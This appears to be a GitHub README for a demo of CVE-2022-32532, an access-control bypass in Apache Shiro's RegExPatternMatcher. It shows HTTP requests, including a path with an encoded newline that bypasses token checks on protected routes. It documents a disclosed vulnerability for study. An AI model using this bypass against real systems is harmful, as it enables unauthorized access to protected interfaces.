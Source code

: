 # CVE-2022-32532

## about

This is a demo project, which only shows one of the conditions for exploiting this vulnerability (CVE-2022-32532). 

In fact, there are more ways to exploit it, as long as developers use `RegExPatternMatcher`, there will be a possible bypass vulnerability.

## introduce

Token request header verification is required under the current configuration, otherwise you do not have permission to access the interface under `/permit`

This request can succeed
```http request
GET /permit/any HTTP/1.1
Token: 4ra1n

```

Access is not allowed when there is no token request header
```http request
GET /permit/any HTTP/1.1
```

It can be bypassed in a simple way in special but common configurations
```http request
GET /permit/a%0any HTTP/1.1
```

## reference

https://lists.apache.org/thread/y8260dw8vbm99oq7zv6y3mzn5ovk90xh

https://xz.aliyun.com/t/11501

This vulnerability is similar to Spring-Security [CVE-2022-22978](https://tanzu.vmware.com/security/cve-2022-22978)

Thanks to [bdemers](https://github.com/bdemers) (Apache Shiro PMC) and [chybeta](https://github.com/chybeta) (Security Researcher)
